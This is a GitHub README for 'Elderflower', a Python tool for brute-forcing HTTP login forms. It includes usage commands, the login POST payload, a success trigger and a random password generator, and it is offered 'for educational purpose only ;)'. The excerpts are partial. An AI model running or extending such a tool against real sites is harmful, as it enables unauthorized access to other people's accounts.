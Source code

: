# Elderflower v1.0.3
## HTTP(S) bruteforcing tool

<p>Elderflower is a http bruteforcing tool. It can be used to bruteforce basic http authentication.Have fun with it and you all know, for educational purpose only ;)
<br>Good luck!</p>
### How to install
Upload the script to your server, adapt the code and run it with python3.




### How to use

#### Usage
##### [Server](server.py)
``` bash
python3 server.py -p [port] -f [file] -v (verbose mode)
```
[file] = file with used passwords
Exapmle:
```bash
python3 server.py -p 4545 -f usedpws.txt -v
```

##### [Elderflower](elderflower.py)
``` bash 
python3 elderflower.py -u [url] -t [username] -s [server] -p [port] -v (verbose mode) 
```
[url] = url of the target
[username] = username to bruteforce
[server] = ip of the server
Exapmle:
``` bash 
python3 elderflower.py -u http://example.com -t JohnDoe -s https://server.com -P 4545 -v
```

#### Addapt the code

##### [bin](bin.py)
The Log files are defined in line 16 & 17.
```python
16  pwLog = 'elderflower.log'               # the found password will be logged here
17  errorLog = 'error.log'                  # errors will be logged here
```

The trigger for the successfull login is defined in line 18.
```python
18  trigger = 'example'                 # trigger for successfull login
```


The payload for the post request is defined in line 24.
```python 
24  payload = {'do':'login', 'user':f'{username}', 'pw':f'{password}'}      # payload for request
```

Passwords are being generated in line 45.
In my case the paswords are 6 characters long. The first character is a random uppercase letter, the next 3 characters are random lowercase letters and the last 2 characters are random digits.

```python
45  def randPW():
46      a = random.choice(uppercase)
47      b = ''.join(random.choice(lowercase) for x in range(3))
48      c = ''.join(random.choice(digits) for x in range(2))
49  
50      password = a+b+c
51      return password
```

